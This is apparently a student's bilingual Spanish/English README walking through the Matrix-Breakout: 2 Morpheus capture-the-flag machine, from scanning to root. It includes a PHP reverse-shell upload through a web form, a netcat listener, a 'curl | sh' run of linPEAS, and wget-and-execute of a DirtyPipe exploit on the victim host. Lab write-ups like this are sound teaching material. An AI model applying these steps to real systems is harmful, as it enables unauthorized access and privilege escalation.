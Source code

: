 # Projecto-Final-Ciberseguridad-Final-Project-Cibersecurity
Matrix-Breakout: 2 Morpheus solution with proper documentation in spanish and english.

This is the second in the Matrix-Breakout series, subtitled Morpheus:1. It’s themed as a throwback to the first Matrix movie. You play Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.

Difficulty: Medium-Hard

Empezaremos por importar las dos maquinas y ajustarlas bajo una misma red virtual.

![img_3.png](img_3.png)

Ya con las maquinas levantadas, vamos a empezar con un escaneo inicial para saber nuestra ip a atacar
Para ello usaremos arp-scan 
```
sudo arp-scan -l
```
![img_4.png](img_4.png)

ya con esta informacion comprobaremos que la maquina este activa haciendo un ping a la ip
````
ping 192.168.116.129
````
![img_6.png](img_6.png)

Con esto ya podemos empezar a trabajar con nmap para ver que servicios estan abiertos en la maquina
o sea empezar con la fase de escaneo de puertos.
````
nmap --open -vv -T5 -p- 192.168.116.129
````
![img_5.png](img_5.png)

Y ahora podemos hacer otro nmap pero sobre los puertos abiertos para encontrar puntos de acceso

````
nmap -sC -sV -p 22,80,81 192.168.116.129
````
![img_7.png](img_7.png)

Con esto podemos observar que el puerto 80 esta abierto y que es un servidor web, asi que vamos a probarlo
![img_8.png](img_8.png)

Y con esto ya empieza nuestro juego de infiltracion.

Empezaremos con un escaneo del codigo fuente de esta pagina web.
![img_9.png](img_9.png)

Y tambien revisaremos el codigo de enumeracion (guardado por defecto en robots.txt)
![img_10.png](img_10.png)

En este caso vemos que el robots.txt esta bien guardado y nos da un mensaje de seguridad.

Nos hemos topado con un callejon sin salida, pero al mal tiempo buena cara o medidas desesparadas
usemos la fuerza bruta para encontrar mas directorios expuestos en el puerto 80

Para ello usaremos nuestra herramienta dirBuster y sus listas de palabras incluidas

![img_12.png](img_12.png)

Lo iniciaremos y esperaremos a que termine de buscar directorios

![img_13.png](img_13.png)

![img_14.png](img_14.png)

Encontrasmos un directorio llamado graffiti.php quien tambien nos da acceso con un codigo 200 vamos a revisarlo

![img_15.png](img_15.png)

cada mensaje que esciribimos en la casilla de mensjae es revisado por el servidor y se coloca en una lista que se ve en pantalla.

![img_16.png](img_16.png)

Ya tenemos una posible vulnerabilidad de sql injection o un php injection reversal.
pero para verificar que lo que suponemos es cierto usaremos la herramienta burpsuite que es muy parecida a wireshark pero esta es mas enfocada en un solo target.

![img_17.png](img_17.png)

![img_18.png](img_18.png)

Como podemos observar todos los datos se guardan en un archivo txt que sera procesado por php.

![img_19.png](img_19.png)

Que podemos hacer con esto?
php reverse shell una version sencilla puede ser encontrada en este repositorio.

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

usaremos la herramienta de burpsuite para mandar este reverse shell como una request en el message y dando como file en vez de un txt un php para que el servidor lo procese.
modificaremos la ip y el puerto para que se conecte a nuestra maquina usaremos el puerto 9999 por que sabemos que no sera usado.
(Mucho ojo en este paso pues un error puede destruir la maquina que estamos atacando como ya me paso a mi en una ocasion y por eso veran una direccion ip de la maquina morfeo distinta 192.168.116.130)
![img_20.png](img_20.png)

posteriormente pondremos un netcat a escuchar en el puerto 9999 y nos conectaremos a nuestra maquina.
````
nc -lnvp 9999
````
al hacer otra request cualquiera recibiermos esto

![img_21.png](img_21.png)


y como podemos observar entramos

![img_22.png](img_22.png)

y con esto obtenemos nuestra primera flag
![img_23.png](img_23.png)
![img_24.png](img_24.png)
![img_25.png](img_25.png)

Ahora tendremos que escalar privilegios para poder obtener la segunda flag.
Como lo haremos? facil utilizaremos otro script que nos permite escalar privilegios llamado linPEAS (Linux Privilege Escalation Awesome Script).
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

lo ejecutaremos directamente en la maquina con este comando
````
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
````

![img_26.png](img_26.png)

Este script nos dara mucha informacion util pero nos centraremos en los exploits abiertos o sin corregir que tiene la maquina

![img_27.png](img_27.png)
![img_28.png](img_28.png)

De todos ellos encontre repositorios directos que nos permiten explotar el siguiente
[CVE-2022–0847] DirtyPipe

Para ejecutarlo haremos lo siguiente en la consola de la maquina hakeada
````
cd /var/www/html
wget https://raw.githubusercontent.com/r1is/CVE-2022-0847/main/Dirty-Pipe.sh
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
````
![img_30.png](img_30.png)

Verificamos entrando en /root

![img_31.png](img_31.png)

y obtenemos la segunda y ultima flag

![img_32.png](img_32.png)




